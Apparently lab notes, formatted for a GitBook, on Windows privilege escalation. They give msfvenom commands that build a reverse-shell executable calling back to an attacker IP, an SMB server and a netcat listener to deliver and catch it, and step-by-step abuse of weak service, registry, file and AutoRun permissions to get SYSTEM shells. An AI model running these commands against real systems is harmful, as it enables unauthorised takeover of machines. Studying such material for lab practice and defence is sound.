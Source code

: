 # Windows Privesc

### Connecting with RDP Port 3389

```text
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.34.38
```

### Making SMB Server to send Rev-shell

Generate a reverse shell executable \(reverse.exe\) using msfvenom.

```text
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

Transfer the reverse.exe file to the C:\PrivEsc directory on Windows. There are many ways you could do this, however the simplest is to start an SMB server on Kali in the same directory as the file, and then use the standard Windows copy command to transfer the file.

On Kali, in the same directory as reverse.exe:

`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`

On Windows \(update the IP address with your Kali IP\):

`copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe`

Test the reverse shell by setting up a netcat listener on Kali:

`sudo nc -nvlp 53`

Then run the reverse.exe executable on Windows and catch the shell:

`C:\PrivEsc\reverse.exe`

![](.gitbook/assets/image%20%2840%29.png)

### Service Exploits - Insecure Service Permissions

Use accesschk.exe to check the "user" account's permissions on the "daclsvc" service:

`C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc`

![](.gitbook/assets/image%20%2841%29.png)

Note that the "user" account has the permission to change the service config \(SERVICE\_CHANGE\_CONFIG\).

Query the service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\):

`sc qc daclsvc`

![](.gitbook/assets/image%20%2842%29.png)

Modify the service config and set the BINARY\_PATH\_NAME \(binpath\) to the reverse.exe executable you created:

`sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start daclsvc`

### Service Exploits - Unquoted Service Path

Query the "unquotedsvc" service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\) and that the BINARY\_PATH\_NAME is unquoted and contains spaces.

`sc qc unquotedsvc`

Using accesschk.exe, note that the BUILTIN\Users group is allowed to write to the C:\Program Files\Unquoted Path Service\ directory:

`C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"`

Copy the reverse.exe executable you created to this directory and rename it Common.exe:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start unquotedsvc`

### Service Exploits - Weak Registry Permissions

Query the "regsvc" service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\).

`sc qc regsvc`

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group \(essentially all logged-on users\):

`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start regsvc`

### Service Exploits - Insecure Service Executables

Query the "filepermsvc" service and note that it runs with SYSTEM privileges \(SERVICE\_START\_NAME\).

`sc qc filepermsvc`

Using accesschk.exe, note that the service binary \(BINARY\_PATH\_NAME\) file is writable by everyone:

`C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`

Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`

Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

`net start filepermsvc`

### Registry - AutoRuns

Query the registry for AutoRun executables:

`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

`C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:

`copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y`

Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it, however if the payload does not fire, log in as an admin \(admin/password123\) to trigger it. Note that in a real world engagement, you would have to wait for an administrator to log in themselves!  
`rdesktop 10.10.64.1`




